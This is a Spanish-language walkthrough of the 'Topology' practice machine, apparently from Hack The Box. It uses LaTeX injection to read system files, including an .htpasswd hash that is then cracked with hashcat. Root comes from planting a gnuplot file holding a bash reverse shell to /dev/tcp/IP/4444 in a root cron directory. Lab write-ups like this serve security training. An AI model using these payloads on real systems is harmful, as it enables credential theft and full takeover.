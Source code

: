 ```yaml
---
title: "Topology"
date: "2025-02-21T17:00:00-05:00"
draft: false
tags: ["crontabs", "linux", "latex", "sudo", "subdominio", "file-read", "apache2", "pspy64", "gnuplot"]
---
```


Una maquina en la que tenemos que hacer una inyeccion latex para poder leer archivos y asi conseguir el hash del usuario para luego mediante una tarea recurrente ganar root
Dificultad: Facil

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
```

- `-p-` Escanea todos los puertos `1-65535` .
- `—open` Solo muestra los puertos que esten abiertos.
- `-sS` Stealt scan cambia el modo de escane haciendo que no se complete el hanshake.
- `—min-rate 5000` Como minimo va a enviar 5000 paquetes por segundo.
- `-vvv` Aumenta la verbosidad mostrando la maxima informacion posible mientras se ejecuta.
- `-n` Desactiva la resolucion `DNS` no va a tratar de resolver los nombres de dominio.
- `-Pn` Nmap por default manda un ping a la ip esto lo desactiva.
- `-oG allPorts` Guarda el escaneo en formato `oG` en el archivo llamado `allPorts`.

Este escaneo nos dio dos puertos el 22 y el 80 vamos a hacer un escaneo mas exhaustivo a estos puertos.

```bash
sudo nmap -sCV -p22,80 IP -A -oN target
```

- `-sCV` Esto ejecuta una serie de scripts predeterminados de nmap para obtener información adicional sobre los servicios que se encuentran abiertos, como versiones de servicios, detalles del sistema operativo, vulnerabilidades conocidas y la version exacta.
- `-p22, 80` Especifica que puertos se van a escanear.
- `-A` Activa el descubrimiento de sistema operativo, la deteccion de version, script scanning y hace un traceroute.

<a href="https://imgur.com/u8zXpKh"><img src="https://i.imgur.com/u8zXpKh.png" title="source: imgur.com" /></a>

La pagina http que esta en el puerto 80 usa Apache 2.4.41

## Puerto 80

<a href="https://imgur.com/P2kGwLQ"><img src="https://i.imgur.com/P2kGwLQ.png" title="source: imgur.com" /></a>

Al momento de entrar a el link `“Latex Equation Generator”` es un subdmonio por lo que tendremos que agregarlo al `/etc/hosts` para que nos muestre lo siguiente.

<a href="https://imgur.com/T7QA4dq"><img src="https://i.imgur.com/T7QA4dq.png" title="source: imgur.com" /></a>

Algo que podemos tratar es listar los archivos dentro de este subdmonio por lo que vamos a ingresar a la siguiente url [`http://latex.topology.htb/`](http://latex.topology.htb/equation.php) dejando el ultimo `/` .

<a href="https://imgur.com/aTp681K"><img src="https://i.imgur.com/aTp681K.png" title="source: imgur.com" /></a>

Revisando los archivos lo unico util esta en `equationtest.tex` ya que nos muestra como estan tratando la entrada Latex la web.

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Podemos observar que la entrada esta entre los signos dolar, leyendo la pagina nos dicen que latex esta en el modo “[inline math](https://www.physicsread.com/latex-math-mode/)” buscando acerca de este modo nos encontramos que hay tres formas de tratar este modo:

1. $ . . .$
2. \begin{math} . . . \end{math}
3. \( . . . \)

# Foothold

Por lo que ahora sabemos porque esta entre esos signos y confirmamos que la entrada va a estar así planeando una inyección.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

Vamos a tratar de empezar a leer archivos del sistema con la inyección de codigo.

```latex
$ \lstinputlisting{/etc/passwd} $
```

<a href="https://imgur.com/eFdUTzY"><img src="https://i.imgur.com/eFdUTzY.png" title="source: imgur.com" /></a>

Una vez confirmamos que podemso leer archivos vamos a empezar a leer archivos de configuracion que nos permitan ingresar al sistema.

```latex
$ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $
```

En este archivo encontramos varios directorios entre ellos uno que pertence al subdominio `dev.topology.htb` lo agregamos al `/etc/hosts` y al ingresar nos pide una contraseña.

Vamos a listar archivos de configuracion por default de apache sobre el directorio correspondiente a este subdominio.

```latex
$ \lstinputlisting{/var/www/dev/.htaccess} $
```

<a href="https://imgur.com/pH0zQXZ"><img src="https://i.imgur.com/pH0zQXZ.png" title="source: imgur.com" /></a>

Por ultimo vamos a listar este archivo.

```latex
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```

Nos vamos a encontrar un usuario junto con su hash, vamos a copiarlo y guardarlo en un archivo `.txt` para hacerle fuerza bruta con `hashcat`:

```python
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt --user
```

Esto nos dara su contraseña para iniciar sesion mediante ssh.

# Root

## Enumeración

Primero vamos a hacer el tratamiento de la shell 

```bash
export TERM=xterm
```

Listo ahora vamos a tratar de listar archivos y permisos a ver si encontramos algo, pero nos daremos cuenta rapidamente que no tenemos permitido el uso de sudo ni ningun permiso extraño por lo que lo unico que tiene algo interesante son las crontab pero no nos permite listarlas por lo que vamos a usar la herramienta [Pspy](https://github.com/DominicBreuker/pspy/tree/master).

```bash
#Maquina atacante 
python3 -m http.server 80

#Maquina victima
wget IP/pspy64
chmod +x pspy64 
./pspy64
```

Luego de ejecutar el ultimo comando si esperamos un rato podremos ver que hay una script que se ejecuta cada minuto `/opt/gnuplot/getdata.sh` .

<a href="https://imgur.com/9ry28PV"><img src="https://i.imgur.com/9ry28PV.png" title="source: imgur.com" /></a>

Si analizamos esta salida nos daremos cuenta que lo que se esta haciendo cada minuto es buscar en el directorio `/opt/gnuplot/` todos los archivos con extension `plt` y los ejecuta.

Si tratamos de ingresar al directorio no nos lo permite pero en cambio si creamos un archivo y lo movemos a esa direccion no habra ningun conflicto. Buscando escalaciones de privilegios con `gnuplot` que es el binario que se ejecuta encontramos la siguiente [Exploit](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/gnuplot-privilege-escalation).

```bash
#Maquina atacante
nc -lvnp 4444

#Maquina victima
nano rev.plt

system "bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'"

mv rev.plt /opt/gnuplot/
```

Con esto tendremos acceso como root y habremos completado la maquina.
